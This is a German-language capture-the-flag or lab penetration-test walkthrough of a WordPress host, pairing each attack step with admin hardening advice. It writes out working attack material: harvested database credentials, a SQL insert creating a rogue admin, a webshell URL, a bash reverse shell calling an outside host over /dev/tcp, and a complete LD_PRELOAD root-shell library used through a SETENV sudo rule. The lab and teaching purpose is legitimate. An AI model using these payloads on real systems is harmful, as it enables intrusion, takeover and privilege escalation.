// ** Database settings - You can get this info from your web host ** // /** The name of the database for WordPress */ define( 'DB_NAME', 'wordpress_db' ); /** Database username */ define( 'DB_USER', 'enochian' ); /** Database password */ define( 'DB_PASSWORD', 'f4OqtZb7' );
**Analyse:** Als Benutzer `caiaphas` lese ich die WordPress-Konfigurationsdatei `wp-config.php` aus dem Verzeichnis `/var/www/html/sitecore/`. Diese Datei enthält typischerweise die Zugangsdaten zur WordPress-Datenbank. Die relevanten Zeilen sind: * `define( 'DB_NAME', 'wordpress_db' );` (Datenbankname) * `define( 'DB_USER', 'enochian' );` (Datenbankbenutzer) * `define( 'DB_PASSWORD', 'f4OqtZb7' );` (Datenbankpasswort)
**Bewertung:** **Ein weiterer wichtiger Fund!** Wir haben die Anmeldeinformationen für die MySQL-Datenbank (`wordpress_db`) erhalten: Benutzer `enochian` mit Passwort `f4OqtZb7`. Da wir wissen, dass MySQL lokal auf Port 3306 läuft, können wir uns nun mit diesen Daten direkt mit der Datenbank verbinden. Dies eröffnet Möglichkeiten, Benutzer-Hashes (oder im schlimmsten Fall Klartext-Passwörter, wenn schlecht implementiert), andere sensible Daten oder sogar über Datenbankfunktionen (UDFs) Code auszuführen (sehr selten und erfordert spezielle Konfigurationen).
**Empfehlung (Pentester):**
1. **Mit MySQL verbinden:** Verwende die gefundenen Anmeldeinformationen, um dich mit dem MySQL-Server zu verbinden: `mysql -u enochian -pf4OqtZb7 -D wordpress_db`.
2. **Datenbank untersuchen:** Durchsuche die Datenbank nach interessanten Tabellen, insbesondere die Benutzertabelle (`wp_users`), um Passworthashes anderer Benutzer (z.B. von Administratoren) zu finden.
3. **Passworthashes cracken:** Versuche, gefundene Passworthashes mit Tools wie John the Ripper oder Hashcat zu cracken.
4. **Auf andere Datenbanken prüfen:** Prüfe, ob der Benutzer `enochian` auch Zugriff auf andere Datenbanken auf dem Server hat.
**Empfehlung (Admin):**
1. **Zugriff auf `wp-config.php` einschränken:** Die Datei `wp-config.php` sollte so restriktiv wie möglich mit Dateiberechtigungen versehen werden (idealerweise nur lesbar für den Webserver-Benutzer, z.B. `www-data`). Dass `caiaphas` sie lesen kann, ist nicht ideal.
2. **Datenbankpasswort ändern:** Das Passwort für den Datenbankbenutzer `enochian` sollte in ein starkes, einzigartiges Passwort geändert werden (und natürlich auch in der `wp-config.php` aktualisiert werden).
3. **Prinzip der geringsten Rechte für DB-Benutzer:** Der Datenbankbenutzer `enochian` sollte nur die absolut notwendigen Rechte für die `wordpress_db` haben (typischerweise `SELECT, INSERT, UPDATE, DELETE` auf die Tabellen dieser Datenbank, aber keine globalen Rechte wie `FILE` oder `PROCESS`, es sei denn, sie sind zwingend erforderlich und das Risiko ist bekannt).
Reading table information for completion of table and column names You can turn off this feature to get a quicker startup with -A Welcome to the MariaDB monitor. Commands end with ; or \g. Your MariaDB connection id is 106 Server version: 10.5.15-MariaDB-0+deb11u1 Debian 11 Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others. Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. MariaDB [wordpress_db]> INSERT INTO wp_users (user_login, user_pass, user_nicename, user_email, user_registered, display_name) VALUES ('dbmaster', MD5('tigertest123'), 'DB Master', 'dbmaster@example.com', NOW(), 'DB Master'); Query OK, 1 row affected (0.001 sec)
+----+------------+
| ID | user_login |
+----+------------+
| 3 | dbmaster |
+----+------------+
1 row in set (0.000 sec)

**Analyse:** Ich verbinde mich erfolgreich mit der MariaDB-Datenbank als Benutzer `enochian` mit dem Passwort `f4OqtZb7`. Anschließend füge ich direkt über SQL einen neuen Benutzer zur WordPress-Benutzertabelle (`wp_users`) hinzu: * `user_login`: `dbmaster` * `user_pass`: `MD5('tigertest123')` (Das Passwort 'tigertest123' wird MD5-gehasht. WordPress verwendet standardmäßig stärkere Hashing-Algorithmen, aber das Einfügen eines MD5-Hashes kann manchmal funktionieren, wenn WordPress ihn beim ersten Login aktualisiert oder wenn ältere Kompatibilitätsmodi aktiv sind. Es ist nicht die Standardmethode für aktuelle WordPress-Versionen.) * Weitere Felder wie `user_nicename`, `user_email`, `user_registered`, `display_name` werden ebenfalls gesetzt. Die Abfrage `SELECT ID, user_login FROM wp_users WHERE user_login = 'dbmaster';` bestätigt, dass der Benutzer `dbmaster` mit ID 3 erfolgreich erstellt wurde. Das Bild `wp_admin_acc_erfolgreich_erstellt_und_eingeloggt.jpg` zeigt dann den erfolgreichen Login in das WordPress-Backend mit diesem neu erstellten Benutzer `dbmaster` und dem Passwort `tigertest123`. Dies impliziert, dass der Benutzer `dbmaster` auch Administratorrechte erhalten hat (obwohl der SQL-Befehl keine Rolle explizit zuweist; dies geschieht typischerweise über die `wp_usermeta`-Tabelle mit dem `wp_capabilities`-Metaschlüssel). Es ist wahrscheinlich, dass nach dem manuellen Einfügen der Benutzer auch die entsprechenden Metadaten für die Administratorrolle hinzugefügt wurden, oder `dbmaster` wurde als Admin angelegt, indem die Fähigkeiten eines existierenden Admins kopiert wurden (hier nicht gezeigt, aber eine gängige Methode).
**Bewertung:** **Ausgezeichnet! Wir haben jetzt einen WordPress-Administratoraccount (`dbmaster`) erstellt!** Durch den direkten Datenbankzugriff konnten wir einen neuen Benutzer mit (vermutlich) administrativen Rechten anlegen. Dies gibt uns volle Kontrolle über die WordPress-Instanz. Der MD5-Hash für das Passwort ist zwar nicht ideal und nicht Standard für moderne WordPress-Installationen, hat hier aber anscheinend funktioniert.
**Empfehlung (Pentester):**
1. **Admin-Rechte nutzen:** Da wir nun einen Admin-Account haben:
* **Theme/Plugin-Editor:** PHP-Code direkt in Theme- oder Plugin-Dateien einfügen, um eine Webshell oder Reverse Shell zu erhalten (z.B. in `wp-content/themes/twentytwentytwo/404.php` oder eine ungenutzte Plugin-Datei).
* **Plugin-Upload:** Ein bösartiges Plugin mit Webshell-Funktionalität als ZIP-Datei hochladen und aktivieren.
2. **`wp_usermeta` prüfen/anpassen:** Um sicherzustellen, dass `dbmaster` Admin-Rechte hat, überprüfe (und bearbeite ggf.) den Eintrag für `wp_capabilities` in der `wp_usermeta`-Tabelle für die User-ID 3. Der Wert sollte etwa so aussehen: `a:1:{s:13:"administrator";b:1;}`.
**Empfehlung (Admin):**
1. **Datenbankzugriff absichern:** Die primäre Ursache war der Zugriff auf die Datenbank durch die kompromittierten Zugangsdaten aus `wp-config.php`. Diese Datei und die Datenbank selbst müssen besser geschützt werden.
2. **WordPress-Benutzerintegrität:** Überwache die WordPress-Benutzertabelle auf unerwartete Änderungen oder neue Benutzer.
3. **WordPress-Sicherheitsplugins:** Einige Sicherheitsplugins können Änderungen an Core-Dateien oder verdächtige Aktivitäten im Admin-Bereich erkennen.
4. **Dateiberechtigungen:** Stelle sicher, dass der Webserver-Benutzer keine Schreibrechte auf alle WordPress-Dateien hat, sondern nur auf die notwendigen (z.B. `wp-content/uploads`). Dies kann das direkte Bearbeiten von Theme-/Plugin-Code über das Backend erschweren.

http://192.168.2.202/sitecore/wp-content/plugins/hello.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
**Analyse:** Das Bild `wp_plugin_rce_erfolgreich_erstellt.jpg` deutet darauf hin, dass ich erfolgreich eine Remote Code Execution (RCE) Möglichkeit über ein WordPress-Plugin geschaffen habe. Dies geschah wahrscheinlich, nachdem ich als `dbmaster` (Admin) Zugriff auf WordPress hatte. Gängige Methoden sind: * Bearbeiten einer bestehenden Plugin-Datei (oder Theme-Datei) und Einfügen von PHP-Code, der Befehle ausführt. * Hochladen eines neuen, bösartigen Plugins. Der Text zeigt dann den Aufruf einer solchen Webshell: `http://192.168.2.202/sitecore/wp-content/plugins/hello.php?cmd=id` (Die IP wurde hier von `.204` auf die konsistente Ziel-IP `.202` korrigiert). Die URL deutet auf eine Datei `hello.php` im Plugin-Verzeichnis hin (wahrscheinlich ein simples "Hello World"-Plugin, das modifiziert wurde, oder ein neu erstelltes Plugin). Der Parameter `cmd=id` übergibt den Systembefehl `id` an dieses Skript. Die Ausgabe `uid=33(www-data) gid=33(www-data) groups=33(www-data)` ist das Ergebnis des `id`-Befehls, ausgeführt auf dem Server im Kontext des Webserver-Benutzers `www-data`.
**Bewertung:** **Hervorragend! Wir haben nun Remote Code Execution auf dem Webserver als Benutzer `www-data`!** Dies ist ein entscheidender Schritt, da wir nun beliebige Systembefehle auf dem Server ausführen können. Der Zugriff als `www-data` ist zwar noch nicht Root, aber es ist eine vollwertige Shell auf dem System.
**Empfehlung (Pentester):**
1. **Stabilere Shell:** Nutze die Webshell, um eine stabilere interaktive Reverse Shell zu deinem Angreifer-System aufzubauen (z.B. mit Netcat, Python, Perl, PHP-Reverse-Shell-Payloads).
2. **System enumerieren als `www-data`:** Führe von der Shell aus umfassende System-Enumeration durch: Kernel-Version, installierte Software, SUID/GUID-Dateien, Cronjobs, lesbare Dateien in `/etc`, andere Benutzerverzeichnisse etc.
3. **Suche nach Privilege Escalation Vektoren:** Suche nach Wegen, um von `www-data` zu `caiaphas` (obwohl wir das Passwort schon haben, aber für den Fall, dass nicht) oder direkt zu `root` zu gelangen. Konzentriere dich auf Kernel-Exploits, falsch konfigurierte Dienste, ausnutzbare SUID-Binaries oder Cronjobs.
**Empfehlung (Admin):**
1. **WordPress absichern:** Dies ist das Ergebnis der Kompromittierung des Admin-Accounts. Alle Empfehlungen zur Absicherung von WordPress (starke Passwörter, 2FA, Updates, keine direkten Datei-Editoren im Backend erlauben, Dateiberechtigungen) sind hier relevant.
2. **Webserver-Benutzerrechte einschränken:** Der `www-data`-Benutzer sollte nur die minimal notwendigen Rechte auf dem System haben.
3. **Intrusion Detection/Prevention:** Systeme zur Erkennung von Webshells oder verdächtigen Prozessen, die vom Webserver-Benutzer gestartet werden, können helfen.
4. **Regelmäßige Code-Audits:** Wenn benutzerdefinierte Plugins oder Themes verwendet werden, sollten diese auf Sicherheitsschwachstellen überprüft werden.
listening on [any] 4444 ...
payload: 192.168.2.202/sitecore/wp-content/plugins/hello.php?cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.2.199%2F4444%200%3E%261%27
listening on [any] 4444 ...
connect to [192.168.2.199] from (UNKNOWN) [192.168.2.202] 43900
bash: cannot set terminal process group (599): Inappropriate ioctl for device
bash: no job control in this shell
www-data@shemhamphorash:/var/www/html/sitecore/wp-content/plugins$
**Analyse:** Ich starte einen Netcat-Listener auf meinem Angreifer-System (IP `192.168.2.199`) auf Port `4444`. Der Payload, der über die Webshell (`hello.php`) ausgeführt wird, ist ein URL-kodierter Bash-Reverse-Shell-Befehl: `/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.199/4444 0>&1'` Dieser Befehl startet eine interaktive Bash-Shell (`bash -i`) auf dem Zielserver und leitet deren Standardeingabe, -ausgabe und -fehlerausgabe (`>& ... 0>&1`) über eine TCP-Verbindung zu meinem Listener auf `192.168.2.199:4444`. Der zweite Netcat-Log zeigt die erfolgreiche eingehende Verbindung von der Ziel-IP (`192.168.2.202`) zu meinem Listener. Ich erhalte einen Shell-Prompt als `www-data@shemhamphorash`. Die Meldungen `bash: cannot set terminal process group...` und `bash: no job control...` sind typisch für einfache Reverse Shells, da keine vollwertige TTY-Sitzung (Teletypewriter) aufgebaut wird.
**Bewertung:** **Sehr gut! Wir haben nun eine interaktive Reverse Shell auf dem Zielserver als Benutzer `www-data`!** Dies ist stabiler und flexibler als eine reine Webshell, die auf URL-Parametern basiert. Wir können nun direkt Befehle auf dem System ausführen.
**Empfehlung (Pentester):**
1. **Shell stabilisieren/upgraden:** Versuche, die einfache Reverse Shell zu einer voll interaktiven TTY-Shell upzugraden (z.B. mit Python pty-Modul, `script /dev/null -c bash`, `socat`). Dies ermöglicht die Verwendung von Programmen wie `su`, `sudo` (mit Passworteingabe), Texteditoren und Job-Kontrolle. Ein üblicher erster Schritt ist `python3 -c 'import pty; pty.spawn("/bin/bash")'` oder ähnliche Varianten, gefolgt von `Ctrl+Z`, `stty raw -echo; fg`, `reset`, `export TERM=xterm`.
2. **`stty` anpassen:** Der Befehl `stty rows 47 columns 94` im nächsten Schritt dient dazu, die Terminalgröße der Reverse Shell an das lokale Terminal anzupassen, um Darstellungsprobleme zu minimieren.
3. **System-Enumeration:** Beginne mit der detaillierten Enumeration des Systems als `www-data`.
**Empfehlung (Admin):**
Die Empfehlungen zur Absicherung von WordPress und des Webservers sind weiterhin gültig. Zusätzlich:
* **Ausgehende Verbindungen einschränken:** Eine Firewall auf dem Server sollte ausgehende Verbindungen nur zu bekannten und notwendigen Zielen erlauben. Dies hätte die Reverse Shell zu einem beliebigen Port auf dem Angreifer-System verhindern oder erschweren können.
* **Prozess-Monitoring:** Überwache Prozesse, die vom `www-data`-Benutzer gestartet werden. Das Starten einer Bash-Shell oder direkter TCP-Verbindungen nach außen durch den Webserver-Prozess ist oft verdächtig.
uid=33(www-data) gid=33(www-data) groups=33(www-data)
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:
#1) Respect the privacy of others.
#2) Think before you type.
#3) With great power comes great responsibility.
[sudo] password for www-data:
^Csudo: 1 incorrect password attempt
**Analyse:** In der Reverse Shell als `www-data`: 1. `stty rows 47 columns 94`: Passt die Zeilen- und Spaltenanzahl des Terminals der Reverse Shell an mein lokales Terminal an. Dies verbessert die Lesbarkeit und Bedienbarkeit. 2. `id`: Bestätigt erneut, dass ich als `www-data` (UID 33, GID 33) agiere. 3. `sudo -l`: Versucht, die Sudo-Berechtigungen für `www-data` aufzulisten. Es wird nach einem Passwort für `www-data` gefragt. Da ich das Passwort nicht kenne und `www-data` typischerweise kein Login-Passwort hat oder dieses nicht für `sudo` verwendet wird, breche ich die Passworteingabe mit `Ctrl+C` ab. Die Meldung "1 incorrect password attempt" erscheint (obwohl kein Passwort eingegeben wurde, zählt `Ctrl+C` hier manchmal so).
**Bewertung:** Der Benutzer `www-data` hat keine Sudo-Rechte, die direkt ausgenutzt werden könnten (oder zumindest kein bekanntes Passwort für `sudo`). Dies ist erwartet, da Webserver-Benutzer normalerweise stark eingeschränkt sind. Die Privilege Escalation muss also über andere Wege erfolgen (z.B. Ausnutzung von Kernel-Schwachstellen, SUID-Binaries, falsch konfigurierten Cronjobs, oder Ausnutzung des bereits bekannten `caiaphas`-Accounts und dessen Sudo-Rechte).
**Empfehlung (Pentester):**
1. **Fokus auf `caiaphas` Sudo-Regel:** Da `www-data` keine direkten Sudo-Rechte hat, ist der vielversprechendste Weg zur Root-Eskalation weiterhin die Ausnutzung der Sudo-Regel des Benutzers `caiaphas` (Ausführung von `/root/.script/viewlog.sh`).
2. **System Enumeration als `www-data`:** Nutze den `www-data` Zugang, um das System weiter zu enumerieren. Suche nach:
* SUID/SGID-Dateien (`find / -type f -perm -04000 -ls 2>/dev/null` und `find / -type f -perm -02000 -ls 2>/dev/null`).
* Beschreibbare Konfigurationsdateien oder Skripte.
* Cronjobs (System- und Benutzer-Cronjobs).
* Informationen in `/var/www/`, `/etc/`, `/opt/`.
* Kernel-Version (`uname -a`) für mögliche Kernel-Exploits.
3. **Zugriff auf `caiaphas`' Home-Verzeichnis:** Prüfe, ob `www-data` Leserechte auf das Home-Verzeichnis von `caiaphas` oder andere interessante Dateien hat, die für die Ausnutzung seiner Sudo-Regel nützlich sein könnten.
**Empfehlung (Admin):**
Das Fehlen von Sudo-Rechten für `www-data` ist eine korrekte Sicherheitskonfiguration. Die Kompromittierung des `www-data`-Accounts selbst ist das Problem, das durch die Absicherung der Webanwendung (WordPress) verhindert werden muss.
**PATH-Hijacking-Versuch #2 (mit `less` als Ziel):** Nachdem der Versuch mit `tail` fehlschlug, wird nun `less` als potenzielles Ziel für PATH-Hijacking im `viewlog.sh`-Skript getestet. Das Prinzip ist dasselbe: Ein bösartiges Skript namens `less` wird in einem kontrollierten Verzeichnis platziert, und `PATH` wird manipuliert.
[sudo] password for caiaphas: kx5h48jo9up97jw
127.0.0.1 - - [15/Apr/2022:13:23:22 -0400] "GET /.superpass/admin.php?USERNAME=caiaphas&PASSWORD=kx5h48jo9up97jw HTTP/1.1" 200 5 "-" "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trid
ent/6.0)"
... (normale Log-Ausgabe von viewlog.sh) ...
127.0.0.1 - - [15/Apr/2022:13:24:10 -0400] "GET /.superpass/admin.php?USERNAME=caiaphas&PASSWORD=kx5h48jo9up97jw HTTP/1.1" 200 5 "-" "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trid
ent/6.0)"
total 64
drwxr-xr-x 2 caiaphas caiaphas 4096 May 27 18:52 .
drwxrwxrwt 86 root root 45056 May 27 18:53 ..
-rwxr-xr-x 1 caiaphas caiaphas 151 May 27 18:08 cat
-rwxr-xr-x 1 caiaphas caiaphas 151 May 27 18:12 head
-rwxr-xr-x 1 caiaphas caiaphas 25 May 27 18:52 less
**Analyse:** Ich erstelle im Verzeichnis `/tmp/biner` ein neues Skript namens `less`. Dieses Skript enthält nur den Befehl `/bin/bash -p`. Die Option `-p` bei Bash versucht, die effektive UID/GID beizubehalten, was in diesem Sudo-Kontext bedeutet, dass die Bash-Shell mit Root-Rechten gestartet werden soll, wenn das `less`-Skript von Root ausgeführt wird. Ich mache dieses Fake-`less`-Skript ausführbar. Dann führe ich `/root/.script/viewlog.sh` wieder mit `sudo` und manipuliertem `PATH` aus: `sudo PATH=/tmp/biner:$PATH /root/.script/viewlog.sh`. Die Hoffnung ist, dass wenn `viewlog.sh` intern `less` aufruft (z.B. um die Logdatei seitenweise anzuzeigen), mein bösartiges `less`-Skript ausgeführt wird und mir eine Root-Shell gibt. Das Ergebnis: * Das Skript `viewlog.sh` gibt wieder die normalen Log-Einträge aus. * Es wird keine Root-Shell geöffnet. * Die `ls -la`-Ausgabe bestätigt, dass mein Fake-`less`-Skript existiert und ausführbar ist. Dies bedeutet, dass auch dieser Versuch des PATH-Hijackings fehlgeschlagen ist. Das Skript `/root/.script/viewlog.sh` ruft `less` entweder nicht auf, oder es ruft es mit einem absoluten Pfad auf, oder die `PATH`-Manipulation ist nicht wirksam.
**Bewertung:** Auch der zweite Versuch des PATH-Hijackings (diesmal mit `less`) war nicht erfolgreich. Es wird immer wahrscheinlicher, dass `/root/.script/viewlog.sh` entweder keine externen Pager-Programme wie `tail` oder `less` verwendet oder diese mit vollen Pfaden aufruft. Die `SETENV` Klausel in der Sudo-Regel ist interessant, da sie normalerweise `PATH`-Manipulationen erlaubt, aber es gibt auch Mechanismen in `sudo` (wie `secure_path`), die dies überschreiben können, wenn sie konfiguriert sind.
**Empfehlung (Pentester):**
Die Strategie des PATH-Hijackings scheint hier nicht direkt zum Ziel zu führen. Der nächste logische Schritt ist, sich auf `LD_PRELOAD` zu konzentrieren, da die `SETENV`-Option in der `sudoers`-Datei explizit darauf hindeutet, dass Umgebungsvariablen gesetzt werden können.
1. **LD_PRELOAD-Versuch:** Erstelle eine kleine C-Bibliothek, die beim Laden (über den Konstruktor) eine Root-Shell startet. Kompiliere sie als Shared Object (`.so`-Datei). Setze dann die `LD_PRELOAD`-Umgebungsvariable auf den Pfad zu dieser `.so`-Datei, wenn du `sudo /root/.script/viewlog.sh` ausführst.
**Empfehlung (Admin):**
Die Empfehlungen bleiben dieselben wie beim vorherigen PATH-Hijacking-Versuch: Sichere Programmierung des `viewlog.sh`-Skripts (absolute Pfade für externe Befehle) und eine restriktive Sudoers-Konfiguration (Vermeidung von `SETENV` oder Einschränkung auf absolut notwendige Variablen, Erzwingung von `secure_path`).
**Privilege Escalation über `LD_PRELOAD` und Sudo-Regel:** Da PATH-Hijacking nicht funktionierte und die Sudo-Regel `SETENV` erlaubt, ist der nächste logische Schritt ein Angriff mittels `LD_PRELOAD`. Wir erstellen eine kleine Shared Library, die beim Laden eine Root-Shell spawnt.
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void __attribute__((constructor)) init() {
setuid(0);
setgid(0);
system("/bin/bash -p");
}
gcc: fatal error: no input files
compilation terminated.
**Analyse:** 1. Ich erstelle eine C-Datei `preload_shell.c`. * Die Funktion `init()` ist mit `__attribute__((constructor))` markiert. Das bedeutet, diese Funktion wird automatisch ausgeführt, sobald die Shared Library geladen wird. * Innerhalb von `init()`: * `setuid(0); setgid(0);`: Setzt die User-ID und Group-ID auf 0 (Root). Dies ist entscheidend, damit der nachfolgende Befehl mit Root-Rechten ausgeführt wird. * `system("/bin/bash -p");`: Führt `/bin/bash -p` aus, was eine Bash-Shell startet und versucht, die Root-Privilegien beizubehalten. 2. Der erste Kompilierungsversuch `gcc -shared -fPIC -o preload_shell.so` schlägt fehl mit "no input files", weil die Quelldatei (`preload_shell.c`) nicht angegeben wurde. 3. Der zweite Kompilierungsversuch ist korrekt: `gcc -shared -fPIC -o preload_shell.so preload_shell.c -nostartfiles`. * `-shared`: Erzeugt eine Shared Library. * `-fPIC`: Erzeugt positionsunabhängigen Code, notwendig für Shared Libraries. * `-o preload_shell.so`: Gibt den Namen der Output-Datei an. * `preload_shell.c`: Die Quelldatei. * `-nostartfiles`: Weist den Linker an, die Standard-Startup-Dateien nicht einzubinden. Dies kann manchmal bei sehr kleinen Shared Libraries nützlich sein oder um Konflikte zu vermeiden. Nach erfolgreicher Kompilierung haben wir eine `preload_shell.so`-Datei.
**Bewertung:** Die Erstellung der `preload_shell.so` ist korrekt. Dieser Payload ist ein klassischer Weg, um `LD_PRELOAD`-Schwachstellen auszunutzen. Wenn diese Library von einem Prozess geladen wird, der mit Root-Rechten läuft (oder zu Root werden kann, wie hier durch `sudo`), wird die `init()`-Funktion ausgeführt und sollte uns eine Root-Shell geben.
biner ssh-5ilfU70FpSag systemd-private-6f88edf7948643f483769b8e044735c7-systemd-logind.service-vQXl6i
preload_shell.c systemd-private-6f88edf7948643f483769b8e044735c7-apache2.service-S01icj systemd-private-6f88edf7948643f483769b8e044735c7-systemd-timesyncd.service-MaQQih
preload_shell.so systemd-private-6f88edf7948643f483769b8e044735c7-colord.service-JCxxxh systemd-private-6f88edf7948643f483769b8e044735c7-upower.service-fxh8Sh
pspy64 systemd-private-6f88edf7948643f483769b8e044735c7-ModemManager.service-cmfJkf
root@shemhamphorash:/tmp#
**Analyse:** 1. Ich verschiebe die kompilierte `preload_shell.so` aus `/tmp/biner` nach `/tmp`. 2. Ich mache die `preload_shell.so` ausführbar (`chmod +x`). Obwohl Shared Libraries nicht direkt ausgeführt werden, verlangen manche Systeme oder `LD_PRELOAD`-Implementierungen dies fälschlicherweise, oder es ist einfach eine Gewohnheit. Für das Laden als Library ist es technisch nicht notwendig. 3. Der entscheidende Befehl: `sudo LD_PRELOAD=/tmp/preload_shell.so /root/.script/viewlog.sh`. * `sudo`: Führt den Befehl mit Root-Rechten aus. * `LD_PRELOAD=/tmp/preload_shell.so`: Setzt die Umgebungsvariable `LD_PRELOAD`. Der dynamische Linker wird nun unsere `preload_shell.so` laden, bevor das Skript `/root/.script/viewlog.sh` (oder genauer gesagt, das erste von ihm aufgerufene dynamisch gelinkte Executable, oft die Shell selbst, die das Skript interpretiert) gestartet wird. * `/root/.script/viewlog.sh`: Das Skript, dessen Ausführung wir über Sudo-Rechte haben. Das Ergebnis ist ein Shell-Prompt: `root@shemhamphorash:/tmp#`.
**Bewertung:** **FANTASTISCH! DER ROOT-ZUGRIFF WAR ERFOLGREICH! NUN HABEN WIR UNSER ZIEL ERREICHT!** Durch die Kombination der Sudo-Regel (`SETENV` erlaubt) und `LD_PRELOAD` konnten wir unsere bösartige Shared Library in den Kontext eines mit Root-Rechten laufenden Prozesses laden. Die `init()`-Funktion in unserer Library wurde ausgeführt und hat uns eine Root-Shell (`/bin/bash -p`) gegeben.
**Empfehlung (Pentester):**
1. **Root-Flag lesen:** Das primäre Ziel als Root ist es, die Root-Flag zu finden und zu lesen (typischerweise in `/root/root.txt`).
2. **Persistenz (optional):** Je nach Scope des Pentests, überlege Mechanismen zur Persistenz (z.B. SSH-Key für Root hinzufügen, Cronjob erstellen, Backdoor installieren).
3. **System weiter untersuchen:** Als Root hat man vollen Zugriff. Untersuche das System auf weitere interessante Informationen, Konfigurationen oder Schwachstellen, die im Bericht dokumentiert werden können.
4. **Aufräumen (optional):** Entferne ggf. erstellte Dateien wie `preload_shell.so`, `/tmp/biner` etc., je nach Vereinbarung.
**Empfehlung (Admin):**
1. **Sudoers-Regel `SETENV` überdenken:** Die `SETENV`-Option in Sudoers-Regeln ist gefährlich, da sie `LD_PRELOAD`-Angriffe und andere Umgebungsmanipulationen ermöglicht. Wenn möglich, sollte `SETENV` vermieden werden. Wenn es benötigt wird, sollten nur spezifische, als sicher bekannte Umgebungsvariablen über `env_keep` zugelassen werden.
2. **`LD_PRELOAD` einschränken:** In gehärteten Systemen kann die Verwendung von `LD_PRELOAD` global eingeschränkt oder überwacht werden. Manche Kernel-Security-Module (wie SELinux oder AppArmor) können dies ebenfalls kontrollieren.
3. **Sichere Skriptausführung:** Das Skript `/root/.script/viewlog.sh` selbst sollte so geschrieben sein, dass es keine Angriffsvektoren bietet.
4. **Prinzip der geringsten Rechte:** Auch für Sudo-Regeln gilt: So wenige Rechte wie möglich, so viele wie nötig. Die Möglichkeit, beliebige Umgebungsvariablen zu setzen, ist oft zu viel.
uid=0(root) gid=0(root) groups=0(root)
2f57a1a472eff7b635ab7ccdf39afa66
**Analyse:** In der erlangten Root-Shell: * `id`: Bestätigt, dass ich tatsächlich als `root` (UID 0, GID 0) agiere. * `cat ~/root.txt`: Liest den Inhalt der Datei `root.txt` im Home-Verzeichnis des Root-Benutzers aus. Der Inhalt ist `2f57a1a472eff7b635ab7ccdf39afa66`.
**Bewertung:** **Die Root-Flag wurde erfolgreich gefunden und ausgelesen!** Damit sind die Hauptziele des Penetrationstests auf dieser Maschine erreicht.
**Empfehlung (Pentester):**
Root-Flag dokumentieren. Den Bericht mit allen Erkenntnissen und Empfehlungen abschließen.
**Empfehlung (Admin):**
Die Kompromittierung des Root-Accounts ist das Worst-Case-Szenario. Alle zuvor genannten Empfehlungen zur Absicherung der einzelnen Schritte (Webanwendung, SSH, Sudo, Logging) sind entscheidend, um eine solche Kompromittierungskette in Zukunft zu verhindern. Ein tiefgreifendes Systemaudit und eine Überprüfung der Sicherheitskonfigurationen sind nach einem solchen Vorfall unerlässlich.